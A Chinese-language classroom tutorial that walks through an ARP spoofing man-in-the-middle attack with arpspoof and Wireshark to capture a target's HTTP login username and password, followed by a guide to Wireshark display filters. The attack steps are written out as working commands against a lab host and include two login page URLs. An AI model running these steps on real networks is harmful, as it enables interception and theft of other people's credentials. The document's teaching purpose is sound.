 # ARP-WireShark截获用户数据

## 1.WireShark工具介绍

wireshark的官方下载网站： http://www.wireshark.org/

wireshark是非常流行的网络封包分析软件，功能十分强大。可以截取各种网络封包，显示网络封包的详细信息。

wireshark是开源软件，可以放心使用。 可以运行在Windows，linux和Mac OS上。

## 2.ARP攻击截获密码的步骤

**1.开启数据包转发**

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

**2.开启ARP攻击**

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.11
```

**3.启动wireshark**

```
wireshark
```

**4.输入过滤条件**

```
(ip.src==192.168.110.11 or ip.dst==192.168.110.11) and tcp.port==80 and http
```

**5.靶机登录后台系统**

```
http://mng.517628.com/login.php
http://vmims.eguagua.cn/#/Login
```

**6.wireshark寻找用户的登录信息**

![获取用户名](https://image.201068.xyz/assets/获取用户名.png)

![分析用户名和密码](https://image.201068.xyz/assets/分析用户名和密码.png)

## 3.WireSahrk 过滤命令讲解

**1.过滤源ip，目的ip**

​	在wireshark的过滤规则框Filter中输入过滤条件。

​	如查找目的地址为192.168.110.11的包

```
ip.dst==192.168.110.11
```

​	查找源地址为1.1.1.1的包

```
ip.src==1.1.1.1
```

**2.端口过滤**

2.1把源端口和目的端口为80的都过滤出来

```
tcp.port==80
```

2.2只过滤目的端口为80的

```
tcp.dstport==80
```

2.3只过滤源端口为80的包

```
tcp.srcport==80
```

**3.协议过滤**

直接在Filter框中直接输入协议名即可滤

```
http
tcp
ssh
```

**4.http模式过滤**

4.1过滤get包

```
http.request.method=="GET"
```

4.2过滤post包

```
http.request.method=="POST"
```

**5.过滤多种条件**

用and连接，如过滤ip为192.168.110.11并且为http协议的

```
ip.src==192.168.110.11 and http
```

## 4.课堂小结

请看ARP-WireShark获取用户信息.xmind

